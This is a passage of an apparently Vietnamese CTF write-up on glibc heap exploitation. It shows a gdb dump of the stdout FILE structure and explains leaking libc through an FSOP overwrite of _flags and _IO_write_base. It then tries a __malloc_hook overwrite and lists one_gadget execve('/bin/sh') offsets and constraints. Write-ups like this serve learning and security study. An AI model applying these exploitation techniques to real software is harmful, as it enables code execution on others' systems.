 Xem các giá trị stdout thông qua gdb ta có thể thấy stdout đang ở unbuffered mode (các con trỏ _IO_write_base, _IO_write_ptr, _IO_write_end,... đều trỏ đến địa chỉ giống nhau):
```c
pwndbg> p _IO_2_1_stdout_
$6 = {
  file = {
    _flags = -72537977,
    _IO_read_ptr = 0x7f6f40e77723 <_IO_2_1_stdout_+131> "\n",
    _IO_read_end = 0x7f6f40e77723 <_IO_2_1_stdout_+131> "\n",
    _IO_read_base = 0x7f6f40e77723 <_IO_2_1_stdout_+131> "\n",
    _IO_write_base = 0x7f6f40e77723 <_IO_2_1_stdout_+131> "\n",
    _IO_write_ptr = 0x7f6f40e77723 <_IO_2_1_stdout_+131> "\n",
    _IO_write_end = 0x7f6f40e77723 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_base = 0x7f6f40e77723 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_end = 0x7f6f40e77724 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7f6f40e76980 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "\n",
    _lock = 0x7f6f40e787e0 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7f6f40e76880 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = -1,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7f6f40e734a0 <_IO_file_jumps>
}
```

Có 2 cách sử dụng FSOP attack ở đây:

1. Overwrite byte cuối của _IO_read_end và _IO_write_base
2. Overwrite giá trị của _flags và _IO_write_base

Ở đây mình chọn cách 2. Vậy là coi như đã leak được.

#### Overwrite one_gadget vào __malloc_hook?

Ở đây thì gặp một vấn đề là điều kiện của toàn bộ one_gadget trong libc được cung cấp khi __malloc_hook được trigger đều không thỏa mãn dẫn đến việc shell không spawn được.
```c
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```